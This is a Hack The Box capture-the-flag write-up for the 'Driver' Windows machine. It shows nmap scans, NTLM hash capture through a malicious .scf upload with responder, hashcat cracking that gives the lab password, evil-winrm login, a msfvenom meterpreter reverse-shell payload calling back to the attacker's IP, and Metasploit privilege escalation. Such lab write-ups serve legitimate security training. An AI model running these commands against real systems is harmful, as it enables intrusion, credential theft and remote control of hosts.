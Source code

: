 # [Driver](https://app.hackthebox.com/machines/driver)

```bash
nmap -p- --min-rate 10000 10.10.11.106 -Pn
```

![Alt text](img/image.png)

Let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p80,135,445,5985 10.10.11.106
```

![Alt text](img/image-7.png)


While enumeration of web application, I see that I can upload file into webserver.

One thing comes to my mind, I can upload file and get NTLM hash of user which runs webserver.

![Alt text](img/image-1.png)


That's why I choose `.scf` extension file which I create this by using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)


```bash
python3 ntlm_theft.py  -g all -s 10.10.16.6 -f dr4ks
```

![Alt text](img/image-2.png)


Let's get NetNTLM hash of user.

1.First, we need to run `responder`.
```bash
responder -I tun0
```
![Alt text](img/image-4.png)

2.Now, we need to upload `.scf` file into this section.

![Alt text](img/image-3.png)


Let's grab this and crack via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

![Alt text](img/image-5.png)


Our grabbed credentials like below.

tony: liltony


Let's try to connect into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

user.txt

![Alt text](img/image-6.png)


Now, I will use `msfconsole` to make privilege escalation.

1.For that, I create **malicious** `.exe` file via `msfvenom` command.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.6 LPORT=1337 -f exe -o dr4ks.exe
```

![Alt text](img/image-8.png)

![Alt text](img/image-10.png)


2.Then let's upload and got reverse shell from `msfconsole`.

![Alt text](img/image-9.png)

![Alt text](img/image-11.png)


Let's use `post/multi/recon/local_exploit_suggester`.

![Alt text](img/image-12.png)


I select this privilege escalation technique called **'exploit/windows/local/ricoh_driver_privesc'**

```bash
set payload windows/x64/meterpreter/reverse_tcp
migrate -N explorer.exe  #get out from dr4ks.exe (reverse shell)

run or exploit
```

![Alt text](img/image-13.png)


root.txt

![Alt text](img/image-14.png)